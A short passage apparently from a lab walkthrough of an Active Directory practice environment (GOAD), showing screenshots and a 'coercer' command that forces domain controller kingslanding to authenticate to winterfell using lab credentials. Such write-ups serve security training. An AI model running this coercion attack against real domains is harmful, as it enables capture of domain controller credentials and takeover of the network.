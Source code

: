 ![screenshot](pics/Rebeus_normal.png)


- And now force a coerce of the DC kingslanding to the DC winterfell.

```
coercer coerce -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell
```
![screenshot](pics/coercer.png)
